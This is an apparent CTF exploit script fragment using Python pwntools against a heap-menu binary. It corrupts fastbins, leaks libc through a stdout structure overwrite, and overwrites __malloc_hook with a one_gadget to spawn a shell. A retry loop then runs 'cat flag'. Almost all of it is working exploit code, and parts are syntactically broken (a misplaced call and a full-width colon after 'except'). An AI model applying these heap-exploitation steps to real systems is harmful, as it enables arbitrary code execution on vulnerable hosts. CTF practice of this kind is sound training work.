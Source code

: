 ```plain
    add(0x60,8,'d')
    add(0x20,7,'prevent_chunk')
    delete(1)
    delete(0)
    edit(0,'\x50')
    #duan()
    #debug(p,'pie',d_a,d_d,d_e,0xB35)
    add(0x60,5,p64(0)*9+p64(0x71))
    add(0x60,6,p64(0)*3+p64(0xe1))
    delete(1)
    #duan()
    delete(0)
    delete(8)
    edit(8,'\x70')
    #duan()
    edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
    add(0x60,9,'a')
    add(0x60,10,'a')
    add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    libc_base=leak_libc-0x3c5600
    leak('libc_base ',libc_base)
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    leak('malloc_hook ',malloc_hook)
    realloc=libc_base+libc.symbols['realloc']
    ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
    og=libc_base+ogs[1]
    leak('og ',og)

    add(0x60,10,'a') 

    delete(10)
    edit(10,p64(malloc_hook-0x23))
    add(0x60,12,'a')

    add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
    p.sendlineafter('choice >> ',str(1))
    p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
    p.sendlineafter('input index: ',str(14))
    #duan()


while 1:
    try:
        p=process('./pwn')
        #p=remote('node4.buuoj.cn',26485)
        pwn()
        p.sendline("ls")
        p.sendline("cat flag")
    itr()
    except ：
        p.close()
```
